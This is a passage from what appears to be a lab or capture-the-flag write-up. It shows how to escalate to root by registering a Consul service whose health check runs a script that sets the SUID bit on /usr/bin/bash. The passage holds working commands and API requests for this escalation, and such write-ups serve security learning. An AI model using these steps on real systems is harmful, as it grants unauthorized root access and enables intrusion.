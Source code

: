 writing a bash script in /tmp that will make a suid bash 
```bash
echo 'chmod +s /usr/bin/bash' > blnkn.sh
cat blnkn.sh
chmod +s /usr/bin/bash
chmod +x blnkn.sh
 which bash
/usr/bin/bash
ls -la $(which bash)
-rwxr-xr-x 1 root root 1183448 Apr 18 09:14 /usr/bin/bash
```

and creating a service that calls that bash script as a check
```bash
curl -s \
  -H "X-Consul-Token: ${token}" \
  -X PUT 'http://127.0.0.1:8500/v1/agent/service/register' \
  -d '{
  "ID": "blnkn",
  "Name": "blnkn",
  "Address": "127.0.0.1",
  "Port": 80,
  "check": {
    "Args": [
      "/usr/bin/bash",
      "/tmp/blnkn.sh"
    ],
    "interval": "10s",
    "timeout": "1s"
  }
}'
```

checking that my service has been created 
```bash
curl -s \
  -H "X-Consul-Token: ${token}" \
  -X GET 'http://127.0.0.1:8500/v1/agent/service/blnkn' |\
  jq "."
```
```json
{
  "ID": "blnkn",
  "Service": "blnkn",
  "Tags": [],
  "Meta": {},
  "Port": 80,
  "Address": "127.0.0.1",
  "TaggedAddresses": {
    "lan_ipv4": {
      "Address": "127.0.0.1",
      "Port": 80
    },
    "wan_ipv4": {
      "Address": "127.0.0.1",
      "Port": 80
    }
  },
  "Weights": {
    "Passing": 1,
    "Warning": 1
  },
  "EnableTagOverride": false,
  "ContentHash": "fd910d44cc6214e9",
  "Datacenter": "dc1"
}
```